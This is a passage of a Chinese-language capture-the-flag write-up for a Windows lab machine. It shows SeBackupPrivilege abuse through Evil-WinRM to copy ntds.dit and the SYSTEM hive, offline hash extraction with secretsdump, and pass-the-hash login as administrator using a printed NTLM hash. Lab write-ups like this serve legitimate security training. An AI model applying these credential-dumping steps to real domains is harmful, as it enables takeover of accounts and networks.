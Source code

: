 根据笔记，他们还没有禁用 audti2020 帐户(这将导致访问 forensic 共享)。

正在尝试复制 root.txt:

```
*Evil-WinRM* PS C:\Users\svc_backup\music> copy-filesebackupprivilege C:\users\administrator\desktop\root.txt .\root.txt -overwrite Opening input file. - Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED)) At line:1 char:1 + copy-filesebackupprivilege C:\users\administrator\desktop\root.txt .\ ... + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception     + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege
```

仍然无法复制 root.txt，因为它是加密的，我认为只能在桌面上读取。继续进行`SEBackupPrivilege` 滥用，我仍然需要传输 NTDS.dit，还需要转储系统配置单元。

```
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\users\svc_backup\music\ntds.dit -Overwrite C:\Users\svc_backup\music> reg save HKLM\SYSTEM c:\users\svc_backup\music\system.hive 
The operation completed successfully.
```

我现在可以使用`Evil-WinRM’s`下载功能下载 NTDS.dit 和 system.hive 文件。然后，使用`Impacket’s` secretsdump.py 解析 NTDS.dit:

```
secretsdump.py LOCAL -system system.hive -ntds ntds.dit -outputfile secretsdump.out
```

然后我得到哈希值:

![](img/1988444cbbde36a10fe9765fb3a0edea.png)

我现在可以利用 PowerShell Remoting 作为`Administrator`用户登录，并读取 root.txt:

```
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```

![](img/2f41b29bce641fdcc6f3423877ae4d93.png)
